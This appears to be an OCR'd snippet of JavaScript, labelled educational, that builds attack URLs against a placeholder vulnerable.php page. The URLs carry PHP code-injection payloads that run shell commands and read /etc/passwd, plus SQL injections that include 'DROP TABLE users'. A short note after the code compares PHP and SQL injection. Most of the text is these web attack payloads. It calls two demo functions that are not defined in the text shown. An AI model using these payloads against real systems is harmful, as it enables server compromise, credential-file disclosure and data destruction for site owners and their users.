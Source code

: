 ```javascript
function demonstrateCodeExecutionAttack() {
  // Command execution payload
  const commandPayload = 'system("ls -la /var/www"); //';
  
  // Data exfiltration payload
  const dataPayload = 'file_get_contents("/etc/passwd"); //';
  
  // Construct the URLs with the malicious payloads
  const commandUrl = `http://example.com/vulnerable.php?calculate=${encodeURIComponent(commandPayload)}`;
  const dataUrl = `http://example.com/vulnerable.php?calculate=${encodeURIComponent(dataPayload)}`;
  
  console.log("Command Execution Attack URL:");
  console.log(commandUrl);
  console.log("This would execute system commands on the server");
  
  console.log("\nData Exfiltration Attack URL:");
  console.log(dataUrl);
  console.log("This would read sensitive files from the server");
}

// Function to demonstrate SQL Injection attack
function demonstrateSQLInjectionAttack() {
  // Basic SQL injection to retrieve all products
  const basicInjection = "' OR '1'='1";
  
  // More dangerous SQL injection to drop a table
  const destructiveInjection = "'; DROP TABLE users; --";
  
  // Construct the URLs with the SQL injection payloads
  const basicUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(basicInjection)}`;
  const destructiveUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(destructiveInjection)}`;
  
  console.log("Basic SQL Injection Attack URL:");
  console.log(basicUrl);
  console.log("This would bypass the search filter and return all products");
  
  console.log("\nDestructive SQL Injection Attack URL:");
  console.log(destructiveUrl);
  console.log("This could delete database tables");
}

// Demonstrate all attacks
console.log("==== VULNERABILITY DEMONSTRATION (EDUCATIONAL ONLY) ====");
demonstrateXSSAttack();
console.log("\n-----------------------------------------\n");
demonstrateFileInclusionAttack();
console.log("\n-----------------------------------------\n");
demonstrateCodeExecutionAttack();
console.log("\n-----------------------------------------\n");
demonstrateSQLInjectionAttack();
```
> THe concept of a php injection is simalar to a sql injection; hoever php injections can result in a [500](#500) type error in your server, or even worse, result in the leakage of user sensitive data.
